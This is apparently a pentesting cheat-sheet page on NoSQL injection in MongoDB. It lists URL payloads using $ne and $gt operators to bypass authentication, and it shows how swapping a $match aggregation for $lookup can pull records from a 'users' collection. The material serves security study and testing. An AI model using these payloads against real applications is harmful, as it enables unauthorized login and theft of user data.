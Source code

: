 ```yaml
---
title: NoSQL Injection
description: NoSQL Injection is derived from SQL Injection. It affects NoSQL database such as MongoDB, Apache Cassandra.
tags:
    - Database
    - SQL Injection
    - Web
refs:
date: 2023-03-26
draft: false
---
```


## Manual Injection

### MongoDB

If the web application uses MongDB, you might be able to fetch the user's information.  
It allows you to bypass authentication.

```sh
https://vulnerable.com/search?username=admin&password[$ne]=xyz
https://vulnerable.com/search?username[$ne]=admin&role=guest
https://vulnerable.com/search?id[$gt]=1&username=mike
```

<br /><br />

## Retrieve Another Document (MongoDB)

If the website uses **MongoDB** and uses **`$match`** aggregation to fetch documents, we can change the aggregation to **`$lookup`** for joining another document and get desired information from the document.  
First, check if the **`$match`** operator is used in the website.

```bash
POST /products HTTP/1.1
...

{
    "$match": {
        "sold": false
    }
}
```

As above, the website uses **`$match`** aggregator to fetch data from the **"products"** document, so we can change this as the following.  
Assume both the **"products"** and **"users"** document have an **"id"** field.

```bash
POST /users HTTP/1.1
...

{
    "$lookup": {
        "from": "users",
        "localField": "id",
        "foreignField": "id",
        "as": "test"
    }
}
```

Then send this request. We can retrieve values in the **"users"** document.